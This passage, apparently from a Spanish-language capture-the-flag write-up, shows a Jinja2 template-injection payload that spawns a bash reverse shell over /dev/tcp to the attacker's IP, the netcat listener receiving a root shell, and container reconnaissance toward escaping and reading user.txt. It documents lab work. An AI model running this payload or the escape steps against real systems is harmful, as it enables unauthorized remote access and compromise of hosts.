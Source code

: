 ```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >&/dev/tcp/10.10.16.6/443 0>&1"').read() }}
```

Resultado: obtenemos una reverse shell

```bash
nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.11.130] 47146
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@3a453ab39d3d:/backend# whoami
whoami
root
```


---

## Elevar privilegios

Comprobamos en que máquina estamos

```bash
ip a
```

Vemos que estamos dentro de un contenedor del que tendremos que escapar

```bash
5: eth0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:13:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.19.0.2/16 brd 172.19.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```


---

### Vía potencial de escape del contenedor

#### 1. Secuencia observada (comandos y salidas)

Ejecutamos los siguientes comandos dentro de la shell que obtuvimos como `root` en el contenedor:

```bash
root@3a453ab39d3d:/backend# ls /home
ls /home
augustus
root@3a453ab39d3d:/backend# ls -l /home/augustus
ls -l /home/augustus
total 4
-rw-r----- 1 root 1000 33 Oct  7 09:40 user.txt
root@3a453ab39d3d:/backend# route -n
route -n
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
0.0.0.0         172.19.0.1      0.0.0.0         UG    0      0        0 eth0
172.19.0.0      0.0.0.0         255.255.0.0     U     0      0        0 eth0
root@3a453ab39d3d:/backend# mount | grep home
mount | grep home
/dev/sda1 on /home/augustus type ext4 (rw,relatime,errors=remount-ro)
root@3a453ab39d3d:/backend# hostname -I
hostname -I
172.19.0.2
root@3a453ab39d3d:/backend# cat /home/augustus/user.txt
cat /home/augustus/user.txt
```